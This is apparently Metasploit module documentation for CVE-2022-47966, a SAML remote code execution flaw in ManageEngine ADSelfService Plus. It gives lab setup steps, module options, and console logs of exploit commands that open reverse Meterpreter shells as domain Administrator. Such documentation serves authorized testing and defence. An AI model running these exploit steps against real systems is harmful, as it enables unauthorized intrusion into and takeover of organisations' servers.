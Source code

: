 ## Vulnerable Application

This exploits an unauthenticated remote code execution vulnerability that
affects Zoho ManageEngine ADSelfService Plus versions 6210 and below
(CVE-2022-47966). Due to a dependency to an outdated library (Apache Santuario
version 1.4.1), it is possible to execute arbitrary code by providing a crafted
`samlResponse` XML to the ADSelfService Plus SAML endpoint. Note that the target
is only vulnerable if it has been configured with SAML-based SSO at least once
in the past, regardless of the current SAML-based SSO status.


## Installation

### SAML 2.0 Identity Provider

If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this
free one for testing: https://mocksaml.com/. Download the Metadata file and
take note of the Entity ID URL (`https://saml.example.com/entityid`).

### Download the installers

Go to https://archives.manageengine.com/, fill the form with any data and
select ADSelfService Plus product with any version (e.g. `6210`). You can then
have access to all the versions and platform installers.

### Windows

This host will need to be part of a domain.
1. Launch the Windows installer and select all the default options by clicking
   `Next` (you can skip the Registration for Technical Support part, it is
   optional). When the installation is done, unselect the two options `Yes, I
   want to view readme file` and `Start ADSelfService Plus in console mode` and
   click `Finish`.
1. Go to the Start menu, select `ADSelfService Plus` and click `Install
   ADSelfService Plus as Service`.
1. Go to the Start menu again, select `ADSelfService Plus` and click `Start
   ADSelfService Plus`. This will start a browser and get you to the login
   page.

### Enable SAML 2.0 SSO

1. Go to `http://<hostname>:8888`
1. Login with the default Administrator credentials (`admin`:`admin`).
1. Fill and set up the mandatory Security Questions and click `Next`.
1. Click on `Admin` in the navigation bar, then `Product Settings` and `Connection`.
1. Select `ADSelfService Plus Port [https]` and click on `Apply SSL Certificate`.
1. Select `Generate Certificate`, fill the mandatory fields and click on
   `Generate & Apply Self-Signed Certificate`.
1. Click on `Update Access URL` in the banner that appears immediately after
   the SSL certificate has been applied.
1. Select `HTTPS` and change the default port to 9251. The Server Name should
   already be the system hostname. Click `Save`.
1. Click again on `Admin` in the navigation bar, then `Customize` and `Login
   Settings`. In the main panel `General` tab, check the `Hide self-service
   admin login` checkbox, close the notification window and click `Save`.
1. Select the `Single Sign-On` tab and check the `Enable SSO` checkbox.
1. Select SAML Authentication, choose `Custom SAML` in the `Select IdP`
   dropdown menu. Enter any name in `IdP Name` and upload the Metadata file you
   get from the IdP.
1. Click `Save`.

At this point you will need to take note of the URL (Recipient or Issuer URL
they should be the same). Its format is
`https://<hostname>:9251/samlLogin/<32-digit id>`. The ID will be used by the
module (see the next section).

Finally, restart the server: go to the Start menu again, select `ADSelfService
Plus` and click `Stop ADSelfService Plus` and then `Start ADSelfService Plus`.
This should get you to the updated URL the HTTPS one, port 9251.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966`
1. Do: `exploit rhosts=<remote host IP> lhost=<local host IP> guid=<the ID from the Enable SAML 2.0 SSO section> issuer_url=<Entity ID URL from the IdP>`
1. You should get a shell
1. Also test with the other target


## Options

### TARGETURI
The ADSelfService Plus SAML endpoint URL. Set to `/samlLogin` by default.

### GUID
The SAML endpoint GUID you got from the Admin page (see the `Enable SAML 2.0
SSO` section).

### ISSUER_URL
The Issuer URL used by the Identity Provider which has been configured as the
SAML authentication provider for the target server.

### RELAY_STATE
The Relay State URL. This is optional and is automatically set up by the module
by default (`http(s)://<rhost>:<rport>/samlLogin/LoginAuth`).


## Scenarios

## Windows 2019 - Target 0 (Windows Command)
```
msf exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.107 lhost=192.168.100.1 guid=e699eba710a6643f561a5f24ce3df0be1e1b5674 issuer_url=https://saml.example.com/entityid

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (175686 bytes) to 192.168.100.107
[*] Meterpreter session 7 opened (192.168.100.1:4444 -> 192.168.100.107:50225) at 2023-01-26 21:42:18 +0100

meterpreter > sysinfo
Computer        : NEWDC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NEWLAB\Administrator
```

## Windows 2019 - Target 1 (Windows EXE Dropper)
```
msf exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.107 lhost=192.168.100.1 guid=e699eba710a6643f561a5f24ce3df0be1e1b5674 issuer_url=https://saml.example.com/entityid

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.107
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 8 opened (192.168.100.1:4444 -> 192.168.100.107:50227) at 2023-01-26 21:42:49 +0100

meterpreter > sysinfo
Computer        : NEWDC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NEWLAB\Administrator
```


